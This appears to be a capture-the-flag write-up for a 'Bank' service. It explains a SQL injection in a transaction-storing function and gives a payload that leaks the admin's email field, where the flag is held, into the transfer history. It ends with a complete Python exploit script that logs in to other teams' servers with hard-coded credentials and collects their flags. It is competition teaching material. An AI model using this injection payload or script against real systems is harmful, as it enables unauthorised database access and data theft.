 Bank writeup
===========
### Vulnerability
There is a SQL injection vulnerability in bank system. \
The vulnerability originates from functions in `db/utils.py`: \
`get_account_num`,`get_balance`, and `store_transaction`. \
These functions can be spotted by diffing the source codes.

The first two functions seem hard to be exploited \
because the arguments are user IDs,\
and this leaves us one and only readily-feasible vulnerable function, \
`store_transaction`.

### Payload
The attack strategy is to insert the flag which resides in the email \
field of admin into transfer message so that we can check the flag in \
transaction history.
Therefore, we put the following payload in the transfer message:

```
',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1
```
which results in the following complete SQL query:
```sql
INSERT INTO `tran_table`(`from_account`, `to_account`, `remit`, `msg`,
    `from_balance`, `to_balance`)
VALUES(%s, %s, %s, concat ('[Transfer] ', '',(SELECT email FROM user_table
            LIMIT 1)),0,0),(1,1,1,('1'), %s, %s)
```

### Full Exploit Code
The following exploit code exploits all other teams' bank servers.
```python
# '^[A-za-z0-9\.\,_\(\)\' ]{,100}$'
import socket
import re

def recvuntil(s, data):
        p = ''
        while not p.endswith(data):
                p += s.recv(1)
        print p
        return p

ips = [None, None, "10.0.102.101", "10.0.103.101", "10.0.104.101", "10.0.105.101", "10.0.106.101"]
id_list = [None, None, "jmpark81", "jmpark81", "jjjkkk1", "jjjkim1", "jjjkkk1"]
pw_list = [None, None, "test1234", "test1234", "jjpass1", "jjpass1", "jjpass1"]

def attack(teamN):
        s = socket.socket(2, 1)
        s.connect((ips[teamN], 1588))
        recvuntil(s, "-> ")
        s.send("1\n")
        recvuntil(s, "Username -> ")
        s.send(id_list[teamN] + "\n") ##### ID
        recvuntil(s, "Password -> ")
        s.send(pw_list[teamN] + "\n") ##### PW
        recvuntil(s, "What would you like to do? -> ")
        s.send("3\n")

        recvuntil(s, "Receiver (user ID) -> ")
        s.send("admin\n")
        recvuntil(s, "Amount to transfer -> ")
        s.send("1\n")
        recvuntil(s, "Transfer message -> ")
        t = """',(SELECT email FROM user_table LIMIT 1)),0,0),(1,1,1,('1"""
        s.send(t+'\n')
        recvuntil(s, "Would you like to transfer? (Y/N) -> ")
        s.send("Y"+'\n')
        recvuntil(s, "Enter any key to return to the previous menu -> ")
        s.send('\n')

        recvuntil(s, "What would you like to do? -> ")
        s.send("2\n")
        flag = re.findall("\[Transfer\] (.{32})", recvuntil(s, "Enter any key to return to the previous menu -> "))[0]
        with open("flag_bank_team%d" % teamN, "wt") as f: f.write(flag)
        s.close()

for i in range(2,7):
        attack(i)
```
